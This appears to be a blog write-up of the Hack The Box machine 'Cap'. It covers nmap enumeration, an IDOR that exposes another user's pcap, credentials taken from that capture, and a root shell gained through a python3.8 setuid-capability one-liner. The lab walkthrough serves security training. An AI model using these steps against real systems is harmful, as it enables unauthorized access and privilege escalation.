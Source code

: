 ```yaml
---
heroImage: /public/images/hackthebox/cap/cap-head.png
category: Hack The Box
description: 'Cap: an easy hack the box machine'
pubDate: 2024-11-10T22:00:00.000Z
tags:
  - network
  - pcap
  - idor
  - web
title: Cap | Easy Hack The Box Machine
---
```


# Enumeration

```shell
nmap -sC -sV -oN nmap/initial 10.10.10.245
```

```ruby
Nmap scan report for 10.10.10.245
Host is up (0.86s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:31 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:32 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=11/10%Time=67310349%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,24DE,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Sun,\x2010\x20Nov\x202024\x2019:02:31\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sun
SF:,\x2010\x20Nov\x202024\x2019:02:32\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x
SF:20OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Sun,\x2010\x20Nov\x202024\x2019:02:38\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

3 ports are open!

**Testing for ftp anonymous connection failed!**

# Port 80 (IDOR)

visiting website indicates it's a network stuff dashboard:

![](/public/images/hackthebox/cap/cap-port-80.png)

Hmm, static page. Let's explore the second one!

![](/public/images/hackthebox/cap/cap-pcap-idor.png)

Hmm, It shows 3 in the URL... what if we changed it to 0? Let's try!

![](/public/images/hackthebox/cap/cap-idor-0.png)

It worked!

# Sensitive Pcap File

Let's Download the pcap file and explore it with wireshark.

![](/public/images/hackthebox/cap/cap-pcap-0.png)

Voila! We got credentials!!!

Let's login on ssh with these credentials!

```powershell
nathan @cap: ~$ id
uid = 1001(nathan) gid = 1001(nathan) groups = 1001(nathan)
nathan @cap: ~$ cat user.txt
REDACTED!
```

Nice One!

# Privilege Escalation

Running `linpeas.sh` revealed this:

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Searching on [gtfobins ](https://gtfobins.github.io/gtfobins/python/#capabilities 'gtfobins')we knew it's a priv esc vector! Let's run it!

```shell
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# cat /root/root.txt
REDACTED!
```
